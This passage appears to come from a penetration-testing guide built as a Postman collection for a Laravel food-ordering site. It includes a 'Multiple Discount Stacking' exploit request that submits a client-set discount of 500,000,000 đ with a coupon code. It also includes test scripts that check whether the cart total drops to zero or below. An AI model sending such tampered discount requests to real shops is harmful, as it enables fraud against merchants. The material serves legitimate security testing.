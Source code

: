 **Test Script:**
```javascript
pm.test("Verify malicious discount in cart", function () {
    const html = pm.response.text();
    
    // Look for discount amount in HTML
    if (html.includes('999,999,999') || html.includes('999999999')) {
        console.log("👁️ MALICIOUS DISCOUNT VISIBLE IN CART!");
        pm.environment.set("DISCOUNT_VISIBLE_CART", "true");
    }
    
    // Look for total amount
    const totalMatch = html.match(/Tổng cộng.*?(\d{1,3}(?:\.\d{3})*|\d+)/);
    if (totalMatch) {
        const total = parseInt(totalMatch[1].replace(/\./g, ''));
        console.log("💵 Current cart total:", total.toLocaleString('vi-VN'), "đ");
        
        if (total <= 0) {
            console.log("🚨 CART TOTAL IS ZERO OR NEGATIVE!");
            pm.environment.set("NEGATIVE_TOTAL", "true");
        }
    }
});
```

#### **Step 2.3: Advanced Exploit - Multiple Discount Stacking**
```http
POST {{BASE_URL}}/coupon/apply
Content-Type: application/json
X-CSRF-TOKEN: {{CSRF_TOKEN}}
Cookie: laravel_session={{SESSION_COOKIE}}

{
    "coupon_code": "FASTFOOD10",
    "discount": 500000000
}
```

**Test Script:**
```javascript
pm.test("Test discount stacking vulnerability", function () {
    const jsonData = pm.response.json();
    const previousDiscount = parseInt(pm.environment.get("MALICIOUS_DISCOUNT") || "0");
    
    if (jsonData.success && jsonData.discount) {
        if (jsonData.discount === (previousDiscount + 500000000)) {
            console.log("🚨 DISCOUNT STACKING VULNERABILITY!");
            console.log("💰 Total accumulated discount:", jsonData.discount.toLocaleString('vi-VN'), "đ");
        } else {
            console.log("ℹ️ Discount gets overwritten (normal behavior)");
        }
    }
});
```
